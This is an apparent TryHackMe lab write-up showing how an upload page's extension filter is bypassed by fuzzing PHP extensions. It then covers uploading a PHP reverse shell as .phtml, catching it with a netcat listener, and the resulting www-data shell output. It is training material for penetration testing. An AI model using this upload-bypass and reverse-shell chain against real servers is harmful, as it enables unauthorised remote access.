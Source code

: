 Found: http://10.10.97.149:3333/internal/ (a upload page)

#### Reverse shell

```
nc -lvnp 4444
```

Upload the malicious php (reverse-shell.php)

Failed extension not allowed

Used burpsuit Intruder with a file like this:
```
.phtml
.php
.php3
.php4
.php5
.inc
.pHtml
.pHp
```

Found that .phtml is a valid extension

Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

To gain remote access to this machine, follow these steps:

1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).

2. Rename this file to php-reverse-shell.phtml

3. We're now going to listen to incoming connections using netcat. Run the following command: nc -lvnp 4444

4. Upload your shell and navigate to http://<ip>:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload

5. You should see a connection on your netcat session

Success reversed shell ✅

```
Listening on 0.0.0.0 4444
Connection received on 10.10.102.37 44138
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:02:40 up 19 min,  0 users,  load average: 0.00, 0.04, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
